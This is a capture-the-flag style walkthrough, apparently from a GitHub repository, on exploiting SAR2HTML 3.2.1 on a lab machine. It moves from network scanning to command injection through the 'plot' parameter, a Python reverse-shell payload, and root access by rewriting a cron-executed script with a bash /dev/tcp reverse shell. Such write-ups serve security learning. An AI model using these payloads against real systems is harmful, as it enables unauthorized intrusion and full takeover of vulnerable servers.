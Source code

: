 # 🚩 SAR2HTML Exploitation and Privilege Escalation

## 🎯 Objective

Gain **remote shell access** to a vulnerable SAR2HTML web application, and then **escalate privileges to root** by exploiting a writable shell script executed via a cron job.

---

## 🔍 Step 1: Network Discovery

### 🔹 Discover Target IP

```bash
netdiscover -r 10.0.2.0/24
```

- Found target machine at: `10.0.2.6`

---

## 🔎 Step 2: Port Scanning

### 🔹 Run Nmap for Open Ports & Service Detection

```bash
nmap -A 10.0.2.6
```

- Found open port: **80 (HTTP)**

---

## 🌐 Step 3: Web Enumeration

### 🔹 Use Gobuster to Find Hidden Directories

```bash
gobuster dir -u http://10.0.2.6 -w /usr/share/wordlists/dirb/common.txt
```

- Found: `/robots.txt`

### 🔹 robots.txt Content

```text
Disallow: /sar2HTML/
```

---

## 📁 Step 4: SAR2HTML Enumeration

- URL: `http://10.0.2.6/sar2HTML/`
- Detected **SAR2HTML v3.2.1**
- Vulnerable to **Remote Code Execution** via `plot` parameter

---

## 🧪 Step 5: Confirm Remote Code Execution

### Test RCE:

```http
http://10.0.2.6/sar2HTML/index.php?plot=;whoami
```

- Response: `www-data` (confirms RCE)

---

## 🎯 Step 6: Get a Reverse Shell

[Parallel Way to Gain Access](./Parallel%20Way%20to%20Gain%20Access%20to%20sar2html%20Machine(METASPLOIT).md)



### Start Listener on Attacker Machine:

```bash
nc -lvnp 4444
```

### Exploit with Python3 Reverse Shell:

```http
http://10.0.2.6/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.0.2.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

> Replace `10.0.2.5` with your Kali IP. Use URL encoding if needed.

---

## 📦 Step 7: Post-Exploitation Enumeration

### Check Kernel Version

```bash
uname -r
```

- `5.0.0-23-generic`

### Find SUID Binaries

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

(No unusual binaries found for direct root exploit.)

---

## ⏱️ Step 8: Privilege Escalation via Cron Job

### Check Crontab

```bash
cat /etc/crontab
```

- Found interesting line:

```cron
*/5 * * * * root cd /var/www/html/ && sudo ./finally.sh
```

### View Script Contents

```bash
cat /var/www/html/finally.sh
```

```bash
#!/bin/sh
./write.sh
```

### Check Permissions on write.sh

```bash
ls -l /var/www/html/write.sh
```

- Result:

```bash
-rwxrwxrwx 1 www-data www-data 30 Oct 21  2019 write.sh
```

✅ Writable by `www-data`, and **executed by root via cron** → escalation vector.

---

## 🧨 Step 9: Modify Script to Spawn Root Shell

### Replace `write.sh` with Reverse Shell Payload:

On attack box, start listener:

```bash
nc -lvnp 1234
```

On target (remote shell):

```bash
echo '#!/bin/bash' > /var/www/html/write.sh
echo 'bash -i >& /dev/tcp/192.168.1.107/1234 0>&1' >> /var/www/html/write.sh
chmod +x /var/www/html/write.sh
```

Wait for cron to execute.

### ✅ Root Access Achieved

- Listener receives connection as `root`.

---

## ✅ Summary

| Step | Action |
|------|--------|
| Web RCE | Exploit SAR2HTML via `plot` param |
| Initial Shell | Python3 reverse shell |
| PrivEsc | Overwrite cron-executed `write.sh` |
| Final Shell | Got root reverse shell via cron |

---

## 🔑 Key Techniques Used

- Web Enumeration (Gobuster, robots.txt)
- RCE via unsanitized GET param
- Reverse Shell via Python
- Cron job privilege escalation
- Shell replacement using writable scripts

---

## 🧰 Tools Used

- `netdiscover`
- `nmap`
- `gobuster`
- `nc` (Netcat)
- Bash scripting
- Python3 reverse shell

---

## 📝 Notes

- If `bash -i >& /dev/tcp/...` fails, use full Python shell or encode URL
- Always check crontabs and SUID files during enumeration
- Try `linpeas.sh` or `pspy` for automated detection in real CTFs

---
